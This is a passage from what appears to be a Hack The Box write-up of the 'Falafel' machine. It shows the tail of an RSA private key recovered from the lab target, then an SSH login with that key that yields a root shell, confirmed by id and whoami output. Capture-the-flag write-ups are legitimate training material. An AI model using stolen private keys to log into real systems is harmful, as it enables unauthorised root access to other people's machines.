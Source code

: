 ```bahs
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
```

Using this RSA private key, let's open a ssh shell.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ ssh -i root.priv root@10.10.10.73
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Expanded Security Maintenance for Infrastructure is not enabled.

159 updates can be applied immediately.
51 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue May  1 20:14:09 2018 from 10.10.14.4
root@falafel:~# id
uid=0(root) gid=0(root) groups=0(root)
root@falafel:~# whoami
root
```

I got a `root` shell!